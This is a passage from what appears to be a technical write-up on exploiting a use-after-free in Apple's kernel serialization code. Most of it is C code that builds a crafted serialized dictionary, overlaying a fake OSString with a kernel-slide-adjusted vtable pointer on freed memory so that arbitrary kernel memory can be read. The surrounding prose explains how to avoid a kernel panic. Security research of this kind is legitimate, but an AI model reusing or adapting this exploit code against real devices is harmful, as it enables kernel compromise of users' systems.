 If you test this in practice, however, you'll always get a panic. This is because during deallocation, when `release()` gets called on the last of the above, the `OSData` before it will have been deallocated already, along with its buffer, which causes the underlying memory to get poisoned, so that a call to `release()` will end up trying to branch to some `0xdeadbeef`.  
We can work around that, however, by adding another `kOSSerializeObject` to the end of the dict, referencing the `OSData`, causing it to be retained until after `release()` has been called on the reference to the overwritten string.

Implementing all of the above, we get:

    OSString osstr =
    {
        .vtab = 0xffffff80044ef1f0 + get_kernel_slide(),                // or 0x803ece94
        .retainCount = 100,
        .flags = kOSStringNoCopy,
        .length = 0x1000,
        .string = address,
    };
    uint32_t *data = (uint32_t*)&osstr;
    uint32_t dict[11 + sizeof(OSString) / sizeof(uint32_t)] =
    {
        kOSSerializeMagic,                                              // Magic
        kOSSerializeEndCollection | kOSSerializeDictionary | 6,         // Dictionary with 6 entries

        kOSSerializeString | 4,                                         // String that will get freed
        *((uint32_t*)"str"),
        kOSSerializeData | sizeof(OSString),                            // OSData with same size as OSString
    #ifdef __LP64__
        data[0],                                                        // vtable pointer (lower half)
        data[1],                                                        // vtable pointer (upper half)
        data[2],                                                        // retainCount
        data[3],                                                        // flags
        data[4],                                                        // length
        data[5],                                                        // (padding)
        data[6],                                                        // string pointer (lower half)
        data[7],                                                        // string pointer (upper half)
    #else
        data[0],                                                        // vtable pointer
        data[1],                                                        // retainCount
        data[2],                                                        // flags
        data[3],                                                        // length
        data[4],                                                        // string pointer
    #endif

        kOSSerializeSymbol | 4,                                         // Name that we're gonna use to retrieve bytes
        *((uint32_t*)"ref"),
        kOSSerializeObject | 1,                                         // Reference to the overwritten OSString

        kOSSerializeSymbol | 4,                                         // Create a reference to the OSData
        *((uint32_t*)"sav"),
        kOSSerializeEndCollection | kOSSerializeObject | 2,
    };
